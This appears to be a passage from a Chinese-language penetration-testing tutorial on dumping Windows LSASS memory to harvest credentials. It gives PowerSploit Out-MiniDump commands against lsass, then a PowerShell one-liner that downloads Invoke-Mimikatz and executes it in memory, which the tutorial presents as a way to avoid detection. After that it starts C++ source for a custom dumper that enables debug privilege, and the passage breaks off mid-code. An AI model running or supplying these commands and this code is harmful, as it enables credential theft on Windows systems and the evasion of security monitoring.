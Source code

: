 使用PowerSploit 的Out-MiniDump模块，PowerSploit是一个基于 Powershell
的渗透工具包，可以选择创建进程的完整内存转储。工具连接：https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-
Minidump.ps1

`Import-Module Out-MiniDump` 导入

`Get-Process lsass | Out-Minidump` 执行

![](https://gitee.com/fuli009/images/raw/master/public/20210904104037.png)

  

解密

![](https://gitee.com/fuli009/images/raw/master/public/20210904104038.png)

### 使用ps版mimikatz  

工具地址：https://github.com/fir3d0g/mimidogz

在执行powershell脚本的时候，常常采用

powershell "IEX (New-Object Net.WebClient).DownloadString
('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-
Mimikatz.ps1');Invoke-Mimikatz"

远程加载的方式，达到文件不落地来更好的规避检测的目的，但是如果目标机器网络环境不允许的话，那就直接把ps1上传到目标机器来运行。

![](https://gitee.com/fuli009/images/raw/master/public/20210904104039.png)

## 应用程序  

    
    
    #include <windows.h>  
    #include <DbgHelp.h>  
    #include <iostream>  
    #include <TlHelp32.h>  
      
    #pragma comment ( lib, "dbghelp.lib" )  
      
    using namespace std;  
      
      
    #define INFO_BUFFER_SIZE 32767  
      
    std::wstring s2ws(const std::string& s)  
    {  
        int len;  
        int slength = (int)s.length() + 1;  
        len = MultiByteToWideChar(CP_ACP, 0, s.c_str(), slength, 0, 0);  
        wchar_t* buf = new wchar_t[len];  
        MultiByteToWideChar(CP_ACP, 0, s.c_str(), slength, buf, len);  
        std::wstring r(buf);  
        delete[] buf;  
        return r;  
    }  
    // 提升权限为 debug  
    bool EnableDebugPrivilege()  
    {  
        HANDLE hToken;  
        LUID sedebugnameValue;  
        TOKEN_PRIVILEGES tkp;  
      